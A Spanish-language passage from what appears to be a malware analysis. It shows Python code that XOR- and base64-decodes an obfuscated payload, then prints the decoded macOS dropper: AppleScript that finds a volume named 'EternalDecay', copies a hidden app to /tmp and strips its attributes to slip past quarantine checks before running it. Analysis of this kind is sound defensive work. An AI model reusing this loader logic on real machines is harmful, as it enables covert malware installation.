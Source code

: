 ```python
key_len = len(key)

decrypted_bytes = bytes([b ^ key[i % key_len] for i, b in enumerate(decoded_bytes)])

final_payload = base64.b64decode(decrypted_bytes)

print(final_payload.decode(errors="replace"))

```

Después de observar el resultado, se puede llegar a la siguiente conclusión sobre qué acciones realiza el script:

- Busca si hay un volumen montado conteniendo el nombre `"EternalDecay".
- Si lo encuentra, crea una ruta oculta llamada `.EternalDecay` en ese volumen.
- Copia un archivo en /tmp/, elimina los metadatos, cambia permisos y lo ejecuta.

```shell
#!/bin/bash

osascript -e 'on run

try
set diskList to list disks
end try

set targetDisk to ""

try
repeat with disk in diskList

if disk contains "EternalDecay" then

set targetDisk to disk
exit repeat

end if

end repeat

end try

if targetDisk is "" then

return

end if

set folderPath to "/Volumes/" & targetDisk & "/"
set appName to ".EternalDecay"
set appPath to folderPath & appName
set tempAppPath to "/tmp/" & appName

try
do shell script "rm -f " & quoted form of tempAppPath
end try

try
do shell script "cp " & quoted form of appPath & " " & quoted form of tempAppPath
end try

try
do shell script "xattr -c " & quoted form of tempAppPath
end try
```